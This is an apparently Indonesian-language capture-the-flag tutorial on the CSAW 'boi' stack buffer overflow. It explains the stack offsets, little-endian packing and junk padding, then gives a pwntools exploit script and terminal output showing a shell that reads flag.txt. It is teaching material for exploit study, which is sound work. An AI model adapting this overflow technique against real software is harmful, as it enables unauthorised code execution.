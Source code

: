 Ini mengartikan ada gap sebesar `0x14` bytes antara `var_20h` dengan `var_34h`, sementara ukuran input yang bisa kita masukkan sebesar `0x18` bytes, berarti ada `0x4` bytes yang bisa menghasilkan buffer overflow yang selanjutnya akan merubah value dari `var_20h` dengan value yang overflow dari inputan yang diberikan.

Dengan memikirkan kembali konsep yang tadi sudah kita pikirkan, maka kita bisa meng-craft payload seperti berikut :

```md
A * 20 (kita buat junk payload sebesar 20 bytes, hanya untuk mengisi buffer)
0xeebaf3ca (ini sebenarnya 0xcaf3baee, nah kenapa dibalik balik, karena binary ELF itu menggunakan little endian)
```

Little endian berarti data yang dibuat harus menggunakan `least significant byte` terlebih dahulu, dan kenapa junk payload nya menggunakan huruf `A`, sebenarnya ini hanya hal trivial karena alasannya ini sudah menjadi tradisi kebanyakan exploit developer dikarenakan akan mempermudah saat debugging nantinya (karena akan langsung tahu penempatan payload kita saat melihat 0x41414141) karena ascii value dari `A` adalah `0x41`.

Dengan begini kita bisa membuat exploit untuk langsung mencoba apakah pemikiran ini benar atau tidak, berikut exploit yang dibuat :

```python
from pwn import *

binary = process("./boi")

payload =  (b"A" * 20) 
payload += p32(0xcaf3baee)

binary.send(payload)
binary.interactive()
```

Baris awal mengartikan bahwa kita akan mengimport `pwntools` untuk mempermudah proses exploitasi seperti yang dijelaskan dibagian `tooling`, dan selanjutnya dengan fungsi `process()` kita bisa menjalankan program nya di background untuk kita masukkan inputan atau bahkan membaca sesuatu dari programnya (hal ini bisa ditelusuri lebih lanjut dengan membaca dokumentasi dari pwntools nya langsung), lalu kita akan membuat payload di baris selanjutnya dan tujuan dari fungsi `p32()` adalah untuk membuat sebuah payload 32bit dengan little endian, setelah pembuatan payload dibaris selanjutnya bisa kita kirimkan payloadnya kedalam program yang telah diinisialisasi di background menggunakan fungsi `process()` sebelumnya, lalu kita gunakan fungsi `interactive()` untuk bisa berinteraksi dengan programnya secara langsung (tidak di background alias langsung di foreground), ini berguna untuk melakukan hal-hal secara interaktif setelah mendapatkan shell (dalam hal ini kita baca flag nya).

Bila kita jalankan python code nya maka akan mendapatkan shell seperti berikut ini :

```bash
╭─f4r4w4y@blackrock stack-buffer-overflows/csaw-boi  
╰─$ python3 x.py
[+] Starting local process './boi': pid 1235563
[*] Switching to interactive mode
Are you a big boiiiii??
$ id
uid=1000(f4r4w4y) gid=1000(f4r4w4y) groups=1000(f4r4w4y) [REDACTED]
$ ls
boi  flag.txt  input  x.py
$ cat flag.txt
flag{pwned}
$  
```
